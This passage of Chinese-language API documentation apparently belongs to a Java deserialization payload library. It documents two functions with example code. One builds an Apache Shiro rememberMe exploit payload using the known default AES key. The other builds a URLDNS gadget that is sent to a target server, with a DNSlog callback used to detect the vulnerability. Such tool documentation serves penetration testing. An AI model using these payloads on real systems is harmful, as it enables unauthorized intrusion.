 Example:
```
javaObject, _ = yso.GetSimplePrincipalCollectionJavaObject()
classBytes,_ = yso.ToBytes(javaObject)
data = codec.PKCS5Padding(classBytes, 16)
keyDecoded,err = codec.DecodeBase64("kPH+bIxk5D2deZiIxcaaaA==")
iv = []byte(ramdstr(16))
cipherText ,_ = codec.AESCBCEncrypt(keyDecoded, data, iv)
payload = codec.EncodeBase64(append(iv, cipherText...))
发送 payload
```


#### 定义

`GetSimplePrincipalCollectionJavaObject() (*JavaObject, error)`

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetURLDNSJavaObject

#### 详细描述
GetURLDNSJavaObject 利用Java URL类的特性，生成一个在反序列化时会尝试对提供的URL执行DNS查询的Java对象。

这个函数首先使用预定义的URLDNS序列化模板，然后在序列化对象中替换预设的URL占位符为提供的URL字符串。

url：要在生成的Java对象中设置的URL字符串。

返回：成功时返回构造好的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
url, token, _ = risk.NewDNSLogDomain()
javaObject, _ = yso.GetURLDNSJavaObject(url)
gadgetBytes,_ = yso.ToBytes(javaObject)
使用构造的反序列化 Payload(gadgetBytes) 发送给目标服务器
res,err = risk.CheckDNSLogByToken(token)

	if err {
	  //dnslog查询失败
	} else {
	  if len(res) > 0{
	   // dnslog查询成功
	  }
	}

```


#### 定义

